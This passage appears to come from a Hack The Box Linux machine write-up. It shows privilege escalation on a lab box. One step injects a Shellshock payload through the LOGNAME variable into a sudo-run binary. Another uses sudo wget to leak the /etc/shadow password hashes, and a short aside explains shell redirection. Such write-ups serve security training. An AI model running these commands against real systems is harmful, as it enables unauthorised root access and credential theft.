 - take an environment that setupped before and execute shell shock scripts

```sh
LOGNAME='() { :;}; echo PleaseSubscribe' sudo /root/troll
```

- not worked in sunny user
- go back into sammy user and test it.

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/11/29.jpg)

- check for sammy executing privileges

```sh
sudo -l
```

we can execute privileges in wget

- check for wget options

```sh
wget -h
```

- through this we can get all the credenials in shadow file

```sh
sudo wget -i /etc/shadow
```
![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/11/30.jpg)

- grep the fourth coloumn

```sh
sudo wget -i /etc/shadow 2>&1 | awk '{print $4}'
```

> - 2>&1
> File descriptor 1 is the standard output (`stdout`).  
File descriptor 2 is the standard error (`stderr`).
>
> - Here is one way to remember this construct (although it is not entirely accurate): at first, `2>1` may look like a good way to redirect `stderr` to `stdout`. 
> 
> - However, it will actually be interpreted as "redirect `stderr` to a file named `1`". `&` indicates that what follows and precedes is a file descriptor and not a filename. So the construct becomes: `2>&1`.
> 
>- Consider `>&` as redirect merger operator.

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/11/31.jpg)

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/11/32.jpg)

- save bash file to upload to the server

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/11/33.jpg)
